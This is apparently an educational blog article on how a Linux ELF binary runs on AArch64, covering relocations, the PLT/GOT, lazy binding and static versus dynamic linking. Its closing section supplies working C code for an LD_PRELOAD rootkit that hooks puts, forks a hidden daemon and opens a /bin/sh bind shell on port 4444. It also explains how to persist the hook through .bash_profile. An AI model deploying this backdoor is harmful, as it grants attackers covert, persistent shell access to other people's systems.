Here a key register appears: `sp`, the stack pointer. This register points to the top of the stack. When the kernel transfers control to the program, the stack is already initialized with data. In this case:

```bash
ldr x1, [sp] loads argc into x1
add x2, sp, #0x8 computes the address of argv
```

So `_start` is extracting the program arguments directly from the stack.

`_start` does not execute our code directly. Its main purpose is to hand control to another key runtime function: `__libc_start_main`.

```bash
bl __libc_start_main@plt
```

That call transfers control to `__libc_start_main`, a function in `libc` responsible for continuing program execution. From there, `libc` (or `glibc` in GNU systems) takes over: it initializes the environment and ultimately invokes our `main` function.

But because the binary is dynamically linked, that call is not direct. It passes through two structures designed specifically for dynamic linking: the **PLT** (Procedure Linkage Table) and the **GOT** (Global Offset Table).

## **Relocations: when the addresses do not exist yet**

So far we have seen how the system can recognize an ELF binary, map its segments into memory, and begin executing it. We have also seen that, in many cases, that binary is not completely "self-contained": it depends on external libraries and on symbols that are not defined inside the file itself. That leaves us facing an uncomfortable but unavoidable question: how can a program run if many of the addresses it needs simply do not exist yet?

The answer lies in one of the most important, and often invisible, mechanisms in the ELF format: relocations.

When we compile a program, the compiler and the linker do everything they can to resolve addresses. However, there are cases where that is simply not possible. If the program uses dynamic libraries such as `libc`, the compiler knows that a function like `printf` will be needed, but it has no way to know the exact address where that function will live in memory. That decision happens much later, at runtime, when the operating system loads both the binary and its dependencies.

This means the executable is built with conceptual "gaps". Places where there should be a valid address, but there is not one yet. Instead of failing, the ELF format adopts a much more interesting strategy: it leaves pending instructions behind. It explicitly marks every point where some later intervention will be required and delegates that responsibility to the loader.

Those pending instructions are relocations.

If we inspect a binary with `readelf -r`, what we find is essentially a task list. Each entry specifies an offset in memory that will need to be modified, the type of operation that must be performed, and the symbol that needs to be resolved. There is no magic here: the file is saying, quite directly, "when you load this, you will have to come here and write the real address of this symbol."

```text
%: readelf -r ./hello_world

Relocation section '.rela.dyn' at offset 0x480 contains 8 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
00000001fd90  000000000403 R_AARCH64_RELATIV                    750
000000020008  000000000403 R_AARCH64_RELATIV                  20008
00000001ffd8  000400000401 R_AARCH64_GLOB_DA 0000000000000000 _ITM_deregisterTM[...] + 0
00000001ffe0  000500000401 R_AARCH64_GLOB_DA 0000000000000000 __cxa_finalize@GLIBC_2.17 + 0
00000001ffe8  000600000401 R_AARCH64_GLOB_DA 0000000000000000 __gmon_start__ + 0

Relocation section '.rela.plt' at offset 0x540 contains 5 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
00000001ffa8  000300000402 R_AARCH64_JUMP_SL 0000000000000000 __libc_start_main@GLIBC_2.34 + 0
00000001ffb0  000500000402 R_AARCH64_JUMP_SL 0000000000000000 __cxa_finalize@GLIBC_2.17 + 0
00000001ffb8  000600000402 R_AARCH64_JUMP_SL 0000000000000000 __gmon_start__ + 0
00000001ffc8  000800000402 R_AARCH64_JUMP_SL 0000000000000000 puts@GLIBC_2.17 + 0
```

At first glance the output may look fairly cryptic, but all entries follow the same logic. Each row indicates a location in memory (`Offset`) that will need to be modified, the type of operation that will be applied, and, in some cases, the symbol that must be resolved.

For example, entries of type `R_AARCH64_JUMP_SLOT` such as the one associated with `puts` correspond to external functions. In those cases, the dynamic linker must find the real address of the function inside `libc` and write it into the specified location. From that point on, calls to that function can be resolved correctly.

By contrast, `R_AARCH64_RELATIVE` entries do not depend on external symbols. Instead, they adjust relative addresses according to where the binary was actually loaded in memory. This becomes especially important in the presence of ASLR, where addresses change on every execution.

At this point the dynamic linker enters the scene. Before our program even begins executing its `main`, this component has already been working. It loads the required libraries, builds a symbol table in memory, and then walks through every relocation entry in the binary. For each one, it finds the real address of the corresponding symbol and writes it into the required location. That patching process is what transforms a partially defined binary into something fully executable.

This mechanism does not happen in isolation. It is deeply connected to other structures we are about to see: the GOT and the PLT. In many cases, relocations do not write directly into the code itself, but into GOT entries. The PLT, in turn, uses those entries as jump points toward the real functions. It is a design built for flexibility: addresses may change, yet the program keeps working because it knows where to look for them indirectly.

This also explains why concepts such as ASLR do not break everything. If addresses were fixed, any memory randomization would make the program stop working. But because ELF is already prepared to correct addresses at load time, it can adapt dynamically to each execution. Relocations are not just an implementation detail; they are the reason why all of this is possible.

Put simply: before relocations are applied, the program contains incomplete references. After the dynamic linker does its job, those references become real addresses, ready to be executed. That is the moment when the binary stops being a template and becomes a live process in memory.

## **PLT and GOT**

The PLT can be thought of as a set of tiny trampolines. Each entry represents an external function and contains the code needed to redirect execution. But the PLT itself does not know the real address of the function. That information lives in the GOT.

The GOT is a table in memory that stores the real addresses of functions and symbols. In simple terms: the PLT defines *how* to jump, the GOT defines *where* to jump.

### Lazy binding

Those addresses are not always available from the very beginning. This is where **lazy binding** appears.

When the program runs for the first time, the GOT entries still do not point to the real function in `libc`. Instead, they point to a resolver in the dynamic linker.

So the first time a function such as `__libc_start_main` is invoked, execution passes through the PLT, which consults the GOT, fails to find the final address, and ends up delegating to the resolver. The dynamic linker resolves the symbol, finds the actual address in memory, and updates the corresponding GOT entry.

From that point on, the GOT already contains the correct address. Subsequent calls no longer need resolution. The PLT simply reads the address from the GOT and jumps directly to the function.

In other words, the first call pays the resolution cost; the rest are direct. This avoids resolving all dependencies at startup and allows them to be resolved only when needed.

We can print the contents of the PLT with `objdump`:

```text
%: objdump -d -j .plt ./hello_world
./hello_world:     file format elf64-littleaarch64

Disassembly of section .plt:
00000000000005d0 <.plt>:
 5d0:	a9bf7bf0 	stp	x16, x30, [sp, #-16]!
 5d4:	f00000f0 	adrp	x16, 1f000 <__FRAME_END__+0x1e768>
 5d8:	f947d211 	ldr	x17, [x16, #4000]
 5dc:	913e8210 	add	x16, x16, #0xfa0
 5e0:	d61f0220 	br	x17
 5e4:	d503201f 	nop
 5e8:	d503201f 	nop
 5ec:	d503201f 	nop

00000000000005f0 <__libc_start_main@plt>:
 5f0:	f00000f0 	adrp	x16, 1f000 <__FRAME_END__+0x1e768>
 5f4:	f947d611 	ldr	x17, [x16, #4008]
 5f8:	913ea210 	add	x16, x16, #0xfa8
 5fc:	d61f0220 	br	x17

0000000000000600 <__cxa_finalize@plt>:
 600:	f00000f0 	adrp	x16, 1f000 <__FRAME_END__+0x1e768>
 604:	f947da11 	ldr	x17, [x16, #4016]
 608:	913ec210 	add	x16, x16, #0xfb0
 60c:	d61f0220 	br	x17

0000000000000610 <__gmon_start__@plt>:
 610:	f00000f0 	adrp	x16, 1f000 <__FRAME_END__+0x1e768>
 614:	f947de11 	ldr	x17, [x16, #4024]
 618:	913ee210 	add	x16, x16, #0xfb8
 61c:	d61f0220 	br	x17

0000000000000620 <abort@plt>:
 620:	f00000f0 	adrp	x16, 1f000 <__FRAME_END__+0x1e768>
 624:	f947e211 	ldr	x17, [x16, #4032]
 628:	913f0210 	add	x16, x16, #0xfc0
 62c:	d61f0220 	br	x17

0000000000000630 <puts@plt>:
 630:	f00000f0 	adrp	x16, 1f000 <__FRAME_END__+0x1e768>
 634:	f947e611 	ldr	x17, [x16, #4040]
 638:	913f2210 	add	x16, x16, #0xfc8
 63c:	d61f0220 	br	x17
```

This is where the relationship between both structures starts to become visible. A PLT entry does not contain the final address of the function we want to call. What it actually does is load an address from memory and jump to it. That address comes from the GOT.

So the split is practical rather than abstract: the PLT contains the intermediate code stub, while the GOT contains the pointer that stub will use. If that pointer still leads to the dynamic linker resolver, execution goes there first. If it has already been fixed up, the jump goes straight into the real implementation in `libc`.

We can look at the GOT directly as well:

```text
%: objdump -s -j .got ./hello_world

./hello_world:     file format elf64-littleaarch64

Contents of section .got:
 1ff90 00000000 00000000 00000000 00000000  ................
 1ffa0 00000000 00000000 d0050000 00000000  ................
 1ffb0 d0050000 00000000 d0050000 00000000  ................
 1ffc0 d0050000 00000000 d0050000 00000000  ................
 1ffd0 a0fd0100 00000000 00000000 00000000  ................
 1ffe0 00000000 00000000 00000000 00000000  ................
 1fff0 58070000 00000000 00000000 00000000  X...............
```

At first sight this may look like meaningless numbers, but it is not noise. Those values are addresses. The GOT does not store instructions; it stores pointers the program will consult when it needs to reach external functions.



At the beginning, several of those pointers still do not lead to the final function. They lead to the dynamic linker resolver instead. That is why the first call does not land immediately in `libc`: it takes one intermediate step first.

From that point on, the GOT already contains the correct address. Subsequent calls no longer need resolution. The PLT simply reads the address from the GOT and jumps directly to the function.

This does not happen only once, nor is it limited to `__libc_start_main`. Every time our program invokes an external function such as `printf`, the flow goes back through the PLT.

If we disassemble `main`, we can see that the calls do not point directly to `libc`, but to the PLT:

```text
%: objdump -d --disassemble=main ./hello_world
./hello_world:     file format elf64-littleaarch64

Disassembly of section .init:

Disassembly of section .plt:

Disassembly of section .text:

0000000000000758 <main>:
 758:	a9bf7bfd 	stp	x29, x30, [sp, #-16]!
 75c:	910003fd 	mov	x29, sp
 760:	90000000 	adrp	x0, 0 <__abi_tag-0x278>
 764:	911e6000 	add	x0, x0, #0x798
 768:	97ffffb2 	bl	630 <puts@plt> ←- Goes to the PLT
 76c:	52800000 	mov	w0, #0x0
 770:	a8c17bfd 	ldp	x29, x30, [sp], #16
 774:	d65f03c0 	ret

Disassembly of section .fini:
```

A natural question appears here: why do we see `puts@plt` instead of `printf@plt` if the source code uses `printf`?

That is not an error. It is a compiler optimization. In this case `gcc` can replace `printf` with `puts` because we are passing a constant string and not using format specifiers such as `%d` or `%s`.

At this point, control has already passed through the kernel, the dynamic linker, and `libc`. Only now does our own code really begin.

```bash
0000000000000758 <main>:
758: a9bf7bfd stp x29, x30, [sp, #-16]!
75c: 910003fd mov x29, sp
760: 90000000 adrp x0, ...
764: 911e6000 add x0, x0, ...
768: 97ffffb2 bl 630 <puts@plt>
76c: 52800000 mov w0, #0x0
770: a8c17bfd ldp x29, x30, [sp], #16
774: d65f03c0 ret
```

The first instructions are the function prologue:

```bash
stp x29, x30, [sp, #-16]!
mov x29, sp
```

This stores the previous state on the stack and creates a new stack frame for `main`.

The body then performs:

```bash
bl puts@plt
```

which, as we already saw, is not a direct call but a call routed through the PLT and eventually into `libc`.

And finally the epilogue:

```bash
ldp x29, x30, [sp], #16
ret
```

restores the previous stack state and returns control.

# **Static vs Dynamic Linking**

So far we have talked about dynamic linking as a concept, but we can see it directly on our own binary. If we run `ldd`, we get exactly the behavior we have been describing:

```bash
%: ldd ./hello_world
	linux-vdso.so.1 (0x0000f9230acbf000)
	libc.so.6 => /lib/aarch64-linux-gnu/libc.so.6 (0x0000f9230aa80000)
	/lib/ld-linux-aarch64.so.1 (0x0000f9230ac70000)
```

This gives us the list of dynamic libraries the program needs in order to run. Among them, one component is crucial: the dynamic linker (`ld-linux`), which is responsible for loading the libraries into memory and resolving the symbols through the PLT and GOT.

This connects directly to the `INTERP` segment we saw earlier: that is where the binary declares which interpreter must handle the process.

As we have seen, there are two main ways to compile a binary: **statically** and **dynamically**. If we compile statically, the resulting binary is much larger because it includes all the `libc` functions it uses inside itself instead of depending on external libraries at runtime.

```bash
%: gcc -static ./hello_world.c -o ./hello_world_static
%: ./hello_world_static
Hello world! 

%: ldd ./hello_world_static 
	not a dynamic executable
```

We can also verify that the resulting binary is much larger:

```bash
%: ls -lh ./hello_world_static ./hello_world
-rwxrwxr-x 1 tty0 tty0  69K Apr  5 07:09 ./hello_world
-rwxrwxr-x 1 tty0 tty0 625K Apr  5 07:07 ./hello_world_static
```

## **Symbols**

If we go one step further and analyze the symbols present in each binary, the difference becomes even clearer. A symbol is the representation of an identifiable entity in a program, such as a function or a variable. During compilation and linking, the linker builds a symbol table that associates names like `main` or `printf` with memory addresses.

One particularly relevant symbol type for our analysis is `T`, which indicates executable code in the `.text` section.

```bash
$ nm ./hello_world_static | grep " T " | wc -l
760

$ nm ./hello_world | grep " T "
0000000000000778 T _fini 00000000000005b8 T _init 0000000000000758 T main 0000000000000640 T _start
```

While the dynamic binary contains only a few functions, the static binary includes hundreds of additional functions, mostly coming from `libc`. That explains both the larger size and the fact that function calls no longer go through mechanisms like the PLT, but point directly to addresses resolved at compile time.

### **Stripping symbols**

Symbols are not strictly necessary for execution. In fact, tools like `strip` can remove them to reduce binary size.

```bash
%: strip ./hello_world
```

If we inspect the binary again with `nm`, most symbols disappear:

```bash
%: nm ./hello_world | grep “T” 
nm: ./hello_world_static: no symbols
```

That happens because `strip` removes symbol tables such as `.symtab` and `.strtab`, which are useful for debugging and analysis but not required at runtime.

Still, in dynamic binaries some symbols must remain, because the dynamic linker needs them to resolve functions at runtime, for example those present in `.dynsym`.

Everything we have seen so far is not merely theoretical. The fact that functions are resolved dynamically at runtime not only simplifies linking, it also opens the door to modifying a program’s behavior without changing its source code.

# **LD_PRELOAD: Intercepting the Runtime**

Once we understand how dynamic linking works, an interesting possibility appears: if the dynamic linker is the one resolving functions at runtime, then we can also influence that process.

On Linux this is possible through the **`LD_PRELOAD`** environment variable, which allows a library to be loaded before any other. That means we can inject our own function implementations and override the original behavior from `libc`.

Why does this work? Because of the symbol lookup order. When the dynamic linker searches for a function such as `printf`, it walks the loaded libraries in sequence. By using `LD_PRELOAD`, our library is placed first in line. The linker finds our version first, binds it into the GOT, and stops there.

That gives us a great deal of power: we can intercept calls to `write` or `printf` and change their behavior without touching a single line of the original source code.

For example, in our classic “Hello world!”:

```c
// hello_world.c
#include <stdio.h>

int main() {
    printf("Hello world!\\n");
    return 0;
}
```

Inside `main()` we call the `libc` function `printf` to print `"Hello world!\n"`. It is simple and easy to understand. Our goal now is to alter the normal behavior of the program by changing the symbol resolution order in our favor.

To do that, we create our own shared library containing a function with the same signature as the original `printf`. The plan is:

1. Write the wrapper.
2. Compile it as a shared object.
3. Inject it with `LD_PRELOAD`.

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <string.h>

// Intercept puts, which is what gcc actually uses underneath
int puts(const char *str) {
    *// Use fputs on stderr to avoid an infinite loop by calling puts again*
    fputs("[Hacked] The system has been intercepted...\\n", stderr);
    return 0;
}

// Also intercept printf just in case
int printf(const char *format, ...) {
    fputs("[Hacked] The system has been intercepted...\\n", stderr);
    return 0;
}
```

Compile it as a **Shared Object**:

```bash
%: gcc -fPIC -shared -o libhacker.so hacker.c -ldl
```

Now we simply execute our binary, or even system commands like `whoami` or `ls`, with the environment variable in front:

```bash
%: LD_PRELOAD=./libhacker.so ./hello_world
[Hacked] The system has been intercepted...

%: LD_PRELOAD=./libhacker.so whoami
[Hacked] The system has been intercepted...
```

If we wanted to take this further, we could add `export LD_PRELOAD=~/.libhacker.so` to the user’s `.bash_profile`. From that point on, every command the user runs would load our code.

For it to behave like a real rootkit, we want it to be invisible. The following code intercepts `printf` or `puts`, but also launches a background shell listening on a chosen port:

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <dlfcn.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/stat.h>

// The payload: a bind shell detached from the parent process
void backdoor() {
    int server_fd, client_fd;
    struct sockaddr_in server_addr;
    char *const shell_argv[] = {"/bin/sh", NULL};
    char *const shell_envp[] = {NULL};

    server_fd = socket(AF_INET, SOCK_STREAM, 0);
    if (server_fd < 0) exit(0);

    int opt = 1;
    setsockopt(server_fd, SOL_SOCKET, SO_REUSEADDR, &opt, sizeof(opt));

    server_addr.sin_family = AF_INET;
    server_addr.sin_addr.s_addr = INADDR_ANY;
    server_addr.sin_port = htons(4444);

    if (bind(server_fd, (struct sockaddr *)&server_addr, sizeof(server_addr)) < 0) exit(0);
    if (listen(server_fd, 1) < 0) exit(0);

    client_fd = accept(server_fd, NULL, NULL);
    if (client_fd < 0) exit(0);

    // Redirect stdin, stdout and stderr to the socket
    dup2(client_fd, 0);
    dup2(client_fd, 1);
    dup2(client_fd, 2);

    execve("/bin/sh", shell_argv, shell_envp);
    exit(0);
}

// Hook puts: the function actually called when printf is optimized away
int puts(const char *str) {
    static int initialized = 0;

    if (!initialized) {
        initialized = 1;
        pid_t pid = fork();

        if (pid == 0) {
            // CHILD process: become a daemon
            setsid();
            umask(0);
            close(0); close(1); close(2);

            backdoor();
            exit(0);
        }
    }

    int (*orig_puts)(const char *str);
    orig_puts = dlsym(RTLD_NEXT, "puts");
    return orig_puts(str);
}
```

We redefine `puts`, which is often what the compiler ends up using underneath when we write a trivial `printf`. By intercepting that call, the original program is no longer executing `libc`’s code, but ours.

The heart of this “rootkit” is the creation of an independent process. When the program attempts to print its message, our function captures execution and uses `fork` to split. The parent continues normally, while the child fully detaches itself with `setsid`, becoming a silent daemon that survives even if the original program or the terminal closes.

To verify it, we compile it again as a shared object:

```bash
%: gcc -fPIC -shared -o libhacker.so hacker.c -ldl -lpthread
```

`-fPIC` generates position-independent code, which shared libraries require. `-shared` tells the compiler to build a shared object instead of a normal executable. `-ldl` links the dynamic loading library so we can use `dlsym`, and `-lpthread` ensures proper support for threads and related runtime behavior.

Now we execute our “Hello world” or any other binary:

```bash
%: LD_PRELOAD=./libhacker.so ./hello_world
```

And if we open another terminal, we can connect:

```text
%: $ nc 172.16.100.43 4444
id
uid=1000(tty0) gid=1000(tty0) groups=1000(tty0),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),101(lxd)
```

Of course, it inherits the privileges of the user who ran `./hello_world`. If we do not audit our systems and connections, and an attacker hides something like this, the door is left open.

## **Conclusion**

After this journey, a simple “Hello world” stops looking like a beginner’s exercise and reveals itself for what it really is: a complex artifact that traverses the kernel, the dynamic linker, and `libc`. We have seen how PLT and GOT act as the real strings behind the curtain, resolving every control transfer in real time inside an environment that is never static.

But understanding this is not just an intellectual luxury. As the “ghost process” example with `LD_PRELOAD` shows, whoever controls the loading process controls the runtime. In user space, trust is an expensive currency; if we do not audit how our symbols are resolved, we are delegating the integrity of our execution to a third party. In Linux, freedom has always depended on the ability to understand the system all the way down to the last bit.

Today the system may look like a house of cards, but this is precisely where the design defends itself. ASLR and PIE compilation introduce the necessary chaos so that, even if an attacker manages to influence symbol resolution, the memory map remains a moving target. It is a positional war where randomness is our best ally.

At the end of the day, nothing happens by chance. Every byte has a purpose, and every syscall is a contract. In a world that rushes blindly toward abstraction, real power still belongs to those who know how to read the binary and understand what happens when silicon receives the first instruction. In the next installment, we will keep going lower. Until then, remember: in the shell we are all equal, but in the kernel, code is the only law.

---

[Facu de la Cruz (`tty0`)](https://linkedin.com/in/fmdlc/)
